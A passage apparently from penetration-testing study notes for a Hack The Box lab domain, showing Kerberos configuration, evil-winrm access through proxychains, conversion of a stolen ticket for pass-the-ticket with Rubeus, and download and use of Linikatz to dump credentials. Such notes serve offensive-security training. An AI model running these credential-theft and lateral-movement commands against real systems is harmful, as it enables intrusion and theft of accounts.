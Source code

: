     vim /etc/krb5.conf
    # modify kerberos config file
    # edit 'default_realm' value under [libdefaults] to target domain name "INLANEFREIGHT.HTB"
    # and 'kdc' value under [realms] to target DC with domain included "dc01.inlanefreight.htb"

    # using evil-winrm
    proxychains evil-winrm -i dc01 -r inlanefreight.htb
    ```
  
  * convert ticket formats:

    ```sh
    # we can use impacket-ticketConverter tool

    # convert ccache to kirbi in Linux
    impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

    # we can then import converted ticket in Windows
    C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
    ```
  
  * [Linikatz](https://github.com/CiscoCXSecurity/linikatz):

    ```sh
    # similar to mimikatz, we need to be root on Linux
    # this extracts all creds

    wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh

    # run linikatz
    /opt/linikatz.sh
    ```

## Cracking Files

* Protected Files:
